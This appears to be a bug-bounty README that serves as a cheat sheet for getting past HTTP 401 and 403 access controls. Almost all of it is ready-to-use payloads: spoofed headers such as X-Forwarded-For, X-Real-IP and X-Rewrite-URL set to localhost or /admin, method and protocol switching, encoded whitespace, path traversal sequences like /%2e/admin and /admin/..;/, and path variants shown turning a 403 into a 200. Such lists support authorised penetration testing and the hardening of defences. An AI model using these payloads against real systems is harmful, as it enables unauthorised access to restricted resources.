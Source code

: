 [1. 401 Unauthorized Bypass](https://github.com/noobsdt/bbtechniques/blob/master/4XX%20Bypass/README.md#401-unauthorized-bypass)

[2. 403 Forbidden Bypass](https://github.com/noobsdt/bbtechniques/blob/master/4XX%20Bypass/README.md#403-forbidden-bypass)


# 401 Unauthorized Bypass

```
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-Origin: 127.0.0.1
```

# 403 Forbidden Bypass

### Change request method.
```
POST -> GET
GET -> POST
```

### Change Protocol
```
http -> https
https -> http
```

### Use space symbol.
```
GET /admin%20
GET /admin%09
```

### X-Rewrite-URL header
```
GET /index.html
X-Rewrite-URL: /admin
```
### Use Path Traversal
```
GET /%2e/admin
GET /admin/..;/
```
			
### X-Real-IP/X-Forwrded-For
```
GET /admin
X-Real-IP: 127.0.0.1
```
```
GET /admin
X-Forwarded-For: 127.0.0.1
```

### Other Techniques
target.com/secret -> ```403 Forbidden```

target.com/secret/ -> ```200 Ok```

target.com//secret// -> ```200 Ok```

target.com/./secret/./ -> ```200 Ok```

target.com/secret/* -> ```200 Ok```

target.com/. -> ```200 Ok```
